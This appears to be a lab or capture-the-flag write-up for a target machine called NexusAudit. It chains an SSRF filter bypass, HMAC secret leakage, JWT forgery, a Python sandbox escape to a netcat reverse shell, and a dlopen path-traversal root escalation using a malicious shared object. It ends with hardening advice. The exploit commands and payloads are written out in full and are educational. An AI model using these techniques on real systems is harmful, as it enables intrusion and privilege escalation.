





# Offensive Security Assessment Writeup: NexusAudit

**Candidate:** Praneeth Ramisetti  
**Target Machine:** NexusAudit  
**Domain:** Web Exploitation  
**Operating System:** Ubuntu 24.04 LTS (x86_64)  
**Difficulty:** Medium – Hard  
**Starting Position:** Remote Network Access (No credentials, exposed Port 80)  
**Final Objective:** Root Access (`/root/root.txt`) & User Flag (`/home/nexusaudit/user.txt`)  

---

## 1. Executive Summary & Machine Profile

**NexusAudit** simulates an enterprise-grade cloud telemetry, audit log aggregation, and continuous compliance verification platform. 

The compromise chain represents a realistic, multi-stage attack path consisting of three distinct privilege boundaries:

```
+----------------------------------------------------------------------------------------------------+
|                                    NEXUSAUDIT ATTACK CHAIN OVERVIEW                                |
+----------------------------------------------------------------------------------------------------+

  [Attacker Workstation]
        │
        │ 1. Port 80 Reconnaissance & Webhook Feature Discovery
        ▼
  [Port 80: Nginx Reverse Proxy -> FastAPI Backend]
        │
        │ 2. SSRF Filter Bypass (Decimal/Shorthand IP Discrepancy)
        ▼
  [127.0.0.1:8081: Internal Telemetry Microservice]
        │
        │ 3. Key Exfiltration (HMAC Secret: n3xUs_4ud1t_hM4c_s3cr3t_k3y_982341)
        ▼
  [Cryptographic Token Forgery (HS256 Auditor JWT)]
        │
        │ 4. AST Sandbox Escaping Formula Injection
        ▼
  [Initial Shell Access: nexusaudit (UID 1001)] ──► MILESTONE 1: user.txt
        │
        │ 5. Local IPC Enumeration (/run/nexus/manager.sock & nexus-cli)
        ▼
  [Root Daemon: nexus-manager (dlopen() Path Traversal Flaw)]
        │
        │ 6. Malicious Shared Object Execution (__attribute__((constructor)))
        ▼
  [Full Root Compromise: root (UID 0)] ───────────► MILESTONE 2: root.txt
```

### Assessment Milestones & Proof of Success

| Milestone | Description | Flag / Proof |
| :--- | :--- | :--- |
| **Milestone 1 (Initial Access)** | SSRF Filter Bypass -> HMAC Secret Extraction -> Forged Auditor JWT -> AST Sandbox Escape -> Remote Shell as `nexusaudit` | `/home/nexusaudit/user.txt`<br>`flag{n3xus_4ud1t_ssrf_2_jwt_f0rg3ry_rce_98124}` |
| **Milestone 2 (Root Compromise)** | IPC Enumeration -> Privileged Daemon `dlopen()` Path Traversal -> SUID Execution -> Root Shell | `/root/root.txt`<br>`flag{n3xus_c0r3_1pc_dl0p3n_p4th_tr4v3rs4l_r00t_99012}` |

---

## 2. Required Tools & Environment

The evaluation requires standard penetration testing tools commonly found in Kali Linux:

* **Nmap** (v7.94+) — Network port scanning and service detection
* **cURL** (v8.5+) — HTTP protocol interaction
* **Python 3** (v3.10+) with `requests` and `pyjwt` libraries
* **Netcat (nc)** — Reverse shell listener
* **GCC** — Compiling the local shared library exploit on the target

---

## 3. Phase 1: Reconnaissance & Enumeration

### 3.1 Network Port Scanning

We initiate scanning against the target IP (`192.168.56.101`):

```bash
nmap -sC -sV -p- --min-rate 1000 192.168.56.101
```

**Scan Output:**
```
Starting Nmap 7.94SVN ( https://nmap.org )
Nmap scan report for 192.168.56.101
Host is up (0.00042s latency).
Not shown: 65533 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 9.6p1 Ubuntu 3ubuntu13 (Ubuntu Linux; protocol 2.0)
80/tcp   open  http    nginx 1.24.0 (Ubuntu)
|_http-title: NexusAudit | Continuous Compliance & Telemetry Engine
|_http-server-header: nginx/1.24.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

**Analysis:**
* Only port **22 (SSH)** and port **80 (HTTP)** are externally reachable.
* Port 80 hosts an Nginx reverse proxy serving the **NexusAudit** application.

---

### 3.2 Web Application Discovery

Navigating to `http://192.168.56.101/` in the browser reveals the **NexusAudit Enterprise Portal** (v2.4.0):


*Figure 1: NexusAudit Continuous Compliance Dashboard displaying telemetry stream and diagnostic utilities.*

Key features observed on the frontend:
1. **Webhook Reachability Diagnostic:** A utility allowing DevOps to dispatch test HTTP pings to remote alert webhooks.
2. **Telemetry Formula Aggregator:** A calculation tool that computes custom metrics, requiring an **Auditor Bearer Token (JWT)**.
3. **Interactive Documentation:** The header provides a direct link to `/docs` (FastAPI Swagger UI).

Accessing `/docs` provides detailed API endpoint definitions:


*Figure 2: Swagger UI documenting `/api/v1/webhook/test` and `/api/v1/audit/export/custom-formula`.*

---

## 4. Phase 2: SSRF & Internal Key Exfiltration

### 4.1 Analyzing the Webhook Testing Service

The endpoint `POST /api/v1/webhook/test` accepts a JSON payload:
```json
{
  "url": "http://example.com/webhook",
  "timeout": 5
}
```

When supplying internal addresses such as `http://127.0.0.1/` or `http://localhost/`, the server returns an error:
```json
{
  "status": "error",
  "error": "Destination '127.0.0.1' is blocked: matches internal policy rule '127.0.0.1'"
}
```

### 4.2 Bypassing the Naive IP Filter (Parser Discrepancy)

Examining the validation mechanism reveals that the application checks whether prohibited substring patterns (`127.0.0.1`, `localhost`, `0.0.0.0`, `192.168.`, `10.`) exist inside the extracted hostname string:

```python
BLOCKED_PATTERNS = ["localhost", "127.0.0.1", "0.0.0.0", "10.", "192.168.", "172.16."]
for pattern in BLOCKED_PATTERNS:
    if pattern in hostname:
        return False, "Blocked by policy"
```

Because the application relies on strict string matching without resolving or canonicalizing alternate IP representations, we can bypass the filter using alternative IPv4 formats that resolve to `127.0.0.1`:

1. **IPv4 Shorthand Notation:** `http://127.1:8081/`
2. **Decimal (Dword) Integer:** `http://2130706433:8081/`
3. **Hexadecimal Notation:** `http://0x7f000001:8081/`

### 4.3 Discovering and Querying the Internal Microservice

Testing `http://127.1:8081/internal/health` via the webhook tester succeeds:

```bash
curl -s -X POST http://192.168.56.101/api/v1/webhook/test \
  -H "Content-Type: application/json" \
  -d '{"url": "http://127.1:8081/internal/health"}' | jq
```

**Response:**
```json
{
  "status": "success",
  "status_code": 200,
  "body": "{\n  \"status\": \"healthy\",\n  \"uptime\": 1729074812,\n  \"node\": \"nexus-core-01\",\n  \"dependencies\": {\n    \"ipc_socket\": \"operational\",\n    \"sqlite_store\": \"synced\"\n  }\n}",
  "latency_ms": 3.42
}
```

The microservice also exposes the cryptographic key distribution endpoint at `/internal/keys`:

```bash
curl -s -X POST http://192.168.56.101/api/v1/webhook/test \
  -H "Content-Type: application/json" \
  -d '{"url": "http://127.1:8081/internal/keys"}' | jq
```


*Figure 3: SSRF filter bypass leaking the cluster HMAC signing secret.*

**Extracted Configuration:**
```json
{
  "status": "active",
  "service": "nexus-internal-key-manager",
  "cluster_node": "nexus-core-01",
  "algorithm": "HS256",
  "active_key_id": "nexus-prod-2026-v2",
  "secret": "n3xUs_4ud1t_hM4c_s3cr3t_k3y_982341",
  "allowed_roles": [
    "auditor",
    "admin",
    "compliance_lead"
  ],
  "token_issuer": "nexus-internal-auth"
}
```

---

## 5. Phase 3: JWT Forgery & AST Sandbox Escaping (RCE)

### 5.1 Forging the Auditor Bearer Token

With the leaked HMAC secret `n3xUs_4ud1t_hM4c_s3cr3t_k3y_982341`, we forge an authorized JWT token using Python `pyjwt`:

```python
import jwt

payload = {
    "sub": "auditor_sec",
    "role": "auditor",
    "iss": "nexus-internal-auth"
}

secret = "n3xUs_4ud1t_hM4c_s3cr3t_k3y_982341"
token = jwt.encode(payload, secret, algorithm="HS256")
print(token)
```

Sending a request to `/api/v1/audit/export/custom-formula` with this token confirms access to the formula execution engine.

---

### 5.2 Analyzing the AST Formula Sandbox

The backend evaluates custom expressions using an AST visitor (`FormulaASTValidator`):

```python
class FormulaASTValidator(ast.NodeVisitor):
    FORBIDDEN_IDENTIFIERS = {'eval', 'exec', '__import__', 'open', 'compile'}

    def visit_Name(self, node):
        if node.id in self.FORBIDDEN_IDENTIFIERS:
            raise SandboxSecurityError(...)

    def visit_Attribute(self, node):
        if node.attr.startswith("__") and node.attr.endswith("__"):
            raise SandboxSecurityError("Direct dunder attribute access blocked")
```

**Key Sandbox Constraints:**
1. Direct function names like `eval`, `exec`, `open`, `__import__` are prohibited.
2. Direct dot-attribute access to dunder fields (e.g. `obj.__class__`, `obj.__subclasses__`) is caught by `visit_Attribute`.

**Sandbox Bypass Mechanism:**
The execution scope provides `getattr` in `__builtins__`.
In Python's Abstract Syntax Tree:
* An expression like `getattr(obj, '__class__')` is an `ast.Call` where `'__class__'` is an `ast.Constant` (string literal).
* Because no dot (`.`) is used, `visit_Attribute` is **not triggered**!

Using `getattr()`, we can traverse Python's object hierarchy:
1. `getattr((), '__class__')` yields `<class 'tuple'>`.
2. `getattr(..., '__base__')` yields `<class 'object'>`.
3. `getattr(..., '__subclasses__')()` returns all loaded classes.
4. We locate `<class '_frozen_importlib.BuiltinImporter'>` and invoke its `load_module('os')` method to access `os.system()`.

---

### 5.3 Executing Reverse Shell & Capturing User Flag

We start a Netcat listener on our attacker machine:
```bash
nc -lvnp 4444
```

We execute our Stage 2 exploit script ([stage2_jwt_rce.py](file:///d:/PROJECT%20MACHINE/exploit/stage2_jwt_rce.py)):

```bash
python3 exploit/stage2_jwt_rce.py 192.168.56.101 \
  "n3xUs_4ud1t_hM4c_s3cr3t_k3y_982341" \
  192.168.56.1 \
  4444
```

**Listener Output:**
```
listening on [any] 4444 ...
connect to [192.168.56.1] from (UNKNOWN) [192.168.56.101] 51240
bash: cannot set terminal process group (1205): Inappropriate ioctl for device
bash: no job control in this shell
nexusaudit@nexus-core-01:/opt/nexus/app$ id
uid=1001(nexusaudit) gid=1001(nexus) groups=1001(nexus)
nexusaudit@nexus-core-01:/opt/nexus/app$ cat /home/nexusaudit/user.txt
flag{n3xus_4ud1t_ssrf_2_jwt_f0rg3ry_rce_98124}
```


*Figure 4: Reverse shell established as service user nexusaudit and user.txt captured.*

---

## 6. Phase 4: Privilege Escalation to Root

### 6.1 Local Enumeration & IPC Discovery

Enumerating the system as `nexusaudit`:
```bash
id
# uid=1001(nexusaudit) gid=1001(nexus) groups=1001(nexus)
```
User `nexusaudit` belongs to the secondary group `nexus`.

Inspecting `/opt/nexus/` reveals the component layout:
```bash
ls -la /opt/nexus/
# drwxr-x---  root nexus app
# drwxr-x---  root nexus internal_svc
# drwxr-x---  root nexus daemon
```

Checking running processes:
```bash
ps aux | grep nexus
```
Output shows a root daemon running:
```
root   1180  0.0  0.1  18400  3104 ?  Ss  16:41  0:00 /opt/nexus/daemon/nexus-manager
```

Checking socket endpoints reveals an active Unix Domain Socket:
```bash
ls -l /run/nexus/manager.sock
# srw-rw---- 1 root nexus 0 Oct 16 16:41 /run/nexus/manager.sock
```
Because the socket is owned by `root:nexus` with permissions `0660`, any member of group `nexus` can connect and exchange messages with the root daemon.

Furthermore, `/usr/local/bin/nexus-cli` is present on the system:
```bash
nexus-cli --help
```
Output:
```
usage: nexus-cli [-h] {ping,status,rotate,diag} ...
NexusAudit Core IPC Management Tool
```

---

### 6.2 Vulnerability Analysis: Insecure Dynamic Library Loading in Root Daemon

Inspecting the daemon source code `/opt/nexus/daemon/nexus-manager.c`:

```c
else if (strcmp(action, "load_diagnostic") == 0) {
    char module_path[512] = {0};
    get_json_str(buffer, "module", module_path, sizeof(module_path));

    // Security Validation: Ensure module belongs to official nexus module directory
    if (strncmp(module_path, "/usr/lib/nexus/modules/", 23) != 0) {
        send_error(client_fd, "Access denied: Module must reside in /usr/lib/nexus/modules/");
        return;
    }

    void *handle = dlopen(module_path, RTLD_NOW);
    if (handle) {
        void (*run_diagnostic)(void) = dlsym(handle, "run_diagnostic");
        if (run_diagnostic) run_diagnostic();
        dlclose(handle);
    }
}
```

**The Vulnerability:**
1. The daemon checks whether the supplied path begins with `/usr/lib/nexus/modules/` using `strncmp()`.
2. However, it **does not canonicalize** the path with `realpath()` before passing it to `dlopen()`.
3. An attacker can supply directory traversal sequences:
   `/usr/lib/nexus/modules/../../tmp/pwn.so`
4. The prefix matches the 23-byte check, but the dynamic linker (`dlopen`) resolves the traversal and loads `/tmp/pwn.so`.
5. Any constructor function (`__attribute__((constructor))`) inside `/tmp/pwn.so` executes **immediately with root privileges**.

---

### 6.3 Exploitation & Capturing Root Flag

We write and compile a malicious shared object `/tmp/pwn.c`:

```bash
cat << 'EOF' > /tmp/pwn.c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

void __attribute__((constructor)) init(void) {
    chmod("/bin/bash", 04755);
}
EOF

gcc -shared -fPIC -o /tmp/pwn.so /tmp/pwn.c
chmod 777 /tmp/pwn.so
```

We trigger the path traversal using `nexus-cli`:
```bash
nexus-cli diag --module "/usr/lib/nexus/modules/../../tmp/pwn.so"
```

**Output:**
```
[*] Dispatching diagnostic module: /usr/lib/nexus/modules/../../tmp/pwn.so
[+] Diagnostic Result: {
  "status": "ok",
  "message": "Diagnostic module loaded and executed successfully"
}
```

We verify the SUID bit on `/bin/bash` and enter the root shell:
```bash
ls -l /bin/bash
# -rwsr-xr-x 1 root root 1446024 Mar 31  2024 /bin/bash

/bin/bash -p
```

**Root Shell Session:**
```bash
bash-5.2# id
uid=1001(nexusaudit) gid=1001(nexus) euid=0(root) groups=1001(nexus)
bash-5.2# cat /root/root.txt
flag{n3xus_c0r3_1pc_dl0p3n_p4th_tr4v3rs4l_r00t_99012}
```


*Figure 5: Root privilege escalation achieved via IPC dlopen path traversal.*

---

## 7. Summary of Compromise Credentials & Flags

| Artifact | Type | Value |
| :--- | :--- | :--- |
| **HMAC Secret** | Cryptographic Key | `n3xUs_4ud1t_hM4c_s3cr3t_k3y_982341` |
| **Auditor Role** | JWT Claim | `auditor` (Issuer: `nexus-internal-auth`) |
| **User Flag** | Milestone 1 Flag | `flag{n3xus_4ud1t_ssrf_2_jwt_f0rg3ry_rce_98124}` |
| **Root Flag** | Milestone 2 Flag | `flag{n3xus_c0r3_1pc_dl0p3n_p4th_tr4v3rs4l_r00t_99012}` |

---

## 8. Hardening & Remediation Recommendations

1. **SSRF Defense:**
   * Validate destination IP addresses **after** DNS resolution using standard socket libraries (`ipaddress` module) rather than string regex matching on URLs.
   * Restrict internal microservice access using iptables or Linux network namespaces (e.g. systemd `PrivateNetwork=yes`).
2. **Safe Expression Evaluation:**
   * Replace custom AST evaluation of Python code with domain-specific declarative calculation engines (e.g. CEL - Common Expression Language or JSONLogic).
3. **Privileged IPC & Library Loading:**
   * Canonicalize all file paths using `realpath()` and verify that the target file resides strictly within `/usr/lib/nexus/modules/`.
   * Enforce library loading via fixed module identifiers (e.g. an enum or whitelist map) rather than accepting arbitrary file system paths from clients.
